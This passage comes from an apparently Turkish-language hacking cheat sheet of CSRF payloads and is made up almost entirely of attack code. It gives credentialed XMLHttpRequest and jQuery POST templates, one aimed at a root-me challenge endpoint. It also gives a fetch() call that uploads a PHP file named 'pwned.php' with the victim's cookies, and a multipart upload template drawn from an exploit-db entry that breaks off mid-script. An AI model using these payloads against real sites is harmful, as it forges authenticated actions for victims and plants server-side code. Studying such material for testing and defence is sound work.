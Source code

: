 ```html
</script>
</body>
</html>
```
### **Ajax POST isteği**
```html
<script>
var xh
if (window.XMLHttpRequest) {
// code for IE7+, Firefox, Chrome, Opera, Safari
xh = new XMLHttpRequest()
} else {
// code for IE6, IE5
xh = new ActiveXObject("Microsoft.XMLHTTP")
}
xh.withCredentials = true
xh.open(
"POST",
"http://challenge01.root-me.org/web-client/ch22/?action=profile"
)
xh.setRequestHeader("Content-type", "application/x-www-form-urlencoded") //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on")
</script>

<script>
//JQuery version
$.ajax({
type: "POST",
url: "https://google.com",
data: "param=value&param2=value2",
})
</script>
```
### multipart/form-data POST isteği
```javascript
myFormData = new FormData()
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text" })
myFormData.append("newAttachment", blob, "pwned.php")
fetch("http://example/some/path", {
method: "post",
body: myFormData,
credentials: "include",
headers: { "Content-Type": "application/x-www-form-urlencoded" },
mode: "no-cors",
})
```
### multipart/form-data POST isteği v2
```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest()
xhr.withCredentials = true
xhr.open("POST", url, true)
//  MIME POST request.
xhr.setRequestHeader(
"Content-Type",
"multipart/form-data, boundary=" + boundary
)
xhr.setRequestHeader("Content-Length", fileSize)
var body = "--" + boundary + "\r\n"
```
